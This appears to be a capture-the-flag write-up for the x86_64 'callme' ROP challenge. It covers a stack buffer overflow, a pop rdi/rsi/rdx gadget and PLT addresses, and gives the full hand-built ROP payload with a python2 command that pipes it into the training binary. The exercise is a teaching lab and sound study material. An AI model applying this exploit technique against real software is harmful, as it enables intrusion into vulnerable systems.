 # callme x86 64
According to the descrption, we need to call the functions callme_one, callme_two, callme_three with three arguments in specific order.

Hint also tells that we need to call the functions through plt(procedure linkage table).

Check the security:
```
CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
PIE is disabled, the we are able to use ret2function or rop.

Use ghidra to track the assembly code, and we will find that the program does not call functions callme_one, callme_two, callme_three. 

These functions are included from shared library, and their function address is stored in the plt table. We can find their function address in plt.
```
gdb-peda$ plt
...
Breakpoint 1 at 0x400720 (callme_one@plt)
Breakpoint 2 at 0x4006f0 (callme_three@plt)
Breakpoint 3 at 0x400740 (callme_two@plt)
```
We obtain three function address, before calling them we need to set the arguments properly.

Hint has told us that these functions need three parameters, which are 0xdeadbeefdeadbeef, 0xcafebabecafebabe, and 0xd00df00dd00df00d.

x86_64 calling convention tells us that the arguments are stored in the registers rdi, rsi, rdx, ...... 

Therefore, we need to set three parameters in rdi, rsi, rdx accordingly.

We find a suitable gadget in program.
```
...
0x000000000040093c : pop rdi ; pop rsi ; pop rdx ; ret
...
```
We use this gadget to set the arguments, and then jump to the plt function address, and repeated 3 times.
```
gadget -> call callme_one -> gadget -> call callme_two -> gadget -> call callme_three
```
Now, we can build our payload.

First, same as problems before, the overflow buffer is 32 bytes, and rbp register 8 bytes.
```
'A' * 32 + 'A' * 8
```
We jump to gadget address and set three arguments accordingly: 
```
0x000000000040093c(gadget adress) + 0xdeadbeefdeadbeef(arg1 pop into rdi) + 0xcafebabecafebabe(arg2 pop into rsi) + 0xd00df00dd00df00d(arg3 pop into rdx) 
```
Then jump to the function callme_one address in plt:
```
0x0000000000400720 (callme_one@plt)
```
callme_two, callme_three do the same pattern:
```
0x000000000040093c(gadget adress) + 0xdeadbeefdeadbeef(arg1 pop into rdi) + 0xcafebabecafebabe(arg2 pop into rsi) + 0xd00df00dd00df00d(arg3 pop into rdx) + 0x0000000000400740 (callme_two@plt)

0x000000000040093c(gadget adress) + 0xdeadbeefdeadbeef(arg1 pop into rdi) + 0xcafebabecafebabe(arg2 pop into rsi) + 0xd00df00dd00df00d(arg3 pop into rdx) + 0x00000000004006f0(callme_three@plt)

```
Finally, the payload will be:
```
'A'*40 + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\x20\x07\x40\x00\x00\x00\x00\x00' + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\x40\x07\x40\x00\x00\x00\x00\x00' + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\xf0\x06\x40\x00\x00\x00\x00\x00'
```
Execute program with payload:
```
python2 -c "print 'A'*40 + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\x20\x07\x40\x00\x00\x00\x00\x00' + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\x40\x07\x40\x00\x00\x00\x00\x00' + '\x3c\x09\x40\x00\x00\x00\x00\x00' + '\xef\xbe\xad\xde\xef\xbe\xad\xde' + '\xbe\xba\xfe\xca\xbe\xba\xfe\xca' + '\x0d\xf0\x0d\xd0\x0d\xf0\x0d\xd0' + '\xf0\x06\x40\x00\x00\x00\x00\x00'" | ./callme
```
We obtain the flag:
```
ROPE{a_placeholder_32byte_flag!}
```

